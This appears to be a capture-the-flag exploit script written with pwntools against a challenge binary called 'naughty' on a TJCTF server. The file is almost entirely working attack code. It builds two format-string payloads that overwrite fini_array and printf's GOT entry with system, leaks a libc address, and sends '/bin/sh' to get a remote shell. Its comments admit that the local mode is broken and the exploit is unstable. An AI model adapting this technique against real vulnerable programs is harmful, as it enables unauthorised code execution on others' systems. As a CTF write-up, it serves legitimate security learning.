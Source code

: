 #!/usr/bin/env python3
from pwn import *
from sys import argv

REMOTE = 0
if len(argv) > 1:
    if 'r' in argv[1]:
        REMOTE = 1

context.terminal = ['tmux', 'splitw']
exe = './naughty'
host, port = "p1.tjctf.org", 8004

# The non-remote version of this exploit is broken
# The exploit is too unstable for me to bother fixing that
# You also need to run the remote version like 3 times until u pop shell
proc = remote(host, port) if REMOTE else process(exe)

# Testing breakpoints 
# Checking ret address, and checking when the format
# string gets written
if len(argv) > 1:
    if 'd' in argv[1]:
        DEBUG = 1
        gdb.attach(proc, '''
b *main
b *main+249
b *main+288
c
''')

# GAME PLAN:
# STAGE 1
# overwrite fini_array -> main
# leak libc address
# STAGE 2 
# calculate base and then system
# overwrite printf@GOT -> system@libc
# overwrite fini_array -> main (again)
# STAGE 3
# input /bin/sh
# STAGE 4
# PROFIT?????

# addresses
main        = 0x08048536
fini_array  = 0x08049bac
printf_got  = 0x08049cb0

log.info("Fini_array    0x%x" % fini_array)
log.info("main          0x%x" % main)

# STAGE 1 - Overwrite fini_array with main
lower_main = main & 0xffff
upper_main = main >> 16
                                                                    
payload  = p32(fini_array+2)
payload += p32(fini_array)
payload += b"|%75$ x|"
payload += b"|%35$ x|"
payload += bytes("%{}x".format(upper_main - 8 - 20).encode('utf-8'))
payload += b"%7$ hn"
payload += bytes("%{}x".format(lower_main - upper_main).encode('utf-8'))
payload += b"%8$ hn"
log.info("Payload: %s" % payload)

proc.recv()
proc.sendline(payload)
data = proc.recv()
leak = data.split(b'|')
if REMOTE:
    libc = int(leak[1],16) - 0xf1 - 0x18d90
else:
    libc = int(leak[1],16) - 0xf1 - 0x18d90
        
stack = int(leak[3], 16)
stack += 64 - 0xe0
log.info("Leaked:       0x%x" % (int(leak[1],16) - 0xf1))
log.info("Libc base:    0x%x" % libc)
log.info("return add:   0x%x" % stack)

# STAGE 2 - Overwrite printf with system AND fini_array with main yet again
if REMOTE:
    system_offset = 0x3cd10
else:
    system_offset = 0x3d200

system = libc + system_offset
lower_system = system & 0xffff
upper_system = system >> 16
log.info("System        0x%x" % system)

# This payload assumes that the addresses are in the format 
# (just look at comparable size of half words)
# system = 0xffff 5555
# main   = 0x0804 8536
payload  = p32(stack+2)     # upper (return addy) <- upper_main
payload += p32(stack)       # lower (return addy) <- lower_main
payload += p32(printf_got)  # lower (printf@GOT)  <- lower_system
payload += p32(printf_got+2)# upper (printf@GOT)  <- upper_system

# Format string specifiers, with calculated padding
# The padding / order of these specifiers is entirely dependant on 
# the structure of the addresses that you need to write
payload += bytes("%{}x".format(upper_main - 16).encode('utf-8'))
payload += b"%7$ hn"
payload += bytes("%{}x".format(lower_system - upper_main).encode('utf-8'))
payload += b"%9$ hn"
payload += bytes("%{}x".format(lower_main - lower_system).encode('utf-8'))
payload += b"%8$ hn"
payload += bytes("%{}x".format(upper_system + 0x7778 + 0x352).encode('utf-8'))
payload += b"%10$ hn"

log.info("Payload2: %s" % payload)
proc.recv()
proc.sendline(payload)
proc.recv()

# Execute system(ptr_to_user_input)
proc.sendline("/bin/sh")
proc.interactive()
